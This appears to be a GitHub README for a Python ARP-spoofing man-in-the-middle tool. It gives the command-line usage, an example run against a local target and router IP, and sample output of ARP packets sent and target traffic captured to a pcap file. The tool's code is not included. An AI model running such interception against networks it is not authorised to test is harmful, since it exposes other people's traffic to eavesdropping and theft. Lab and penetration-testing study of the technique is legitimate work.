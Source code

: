 # MITM-using-ArpSpoofing
Man in the middle attack using Arp Spoofing.


### Getting Started
```
Gil@kali:/root/Desktop$ python MITM.py <interface> <TargetIP> <RouterIP> <pcap file path>
```
for Example:
```
Gil@kali:/root/Desktop$ python MITM.py eth0 192.168.1.52 192.168.1.100 /root/Desktop/Gil
```
output:
```
The pcap file was created in the path : /root/Desktop/Gil

Arp Spoofing is Running... 156 packets of ARP have been sent So far.
---------------------------------------------------------------------------

Sniffer is Running... 768 packets From the Target have been collected so far.
-----------------------------------------------------------------------------
```
## Requirements
python 3.7 

## Authors
Gil Matitiyahu
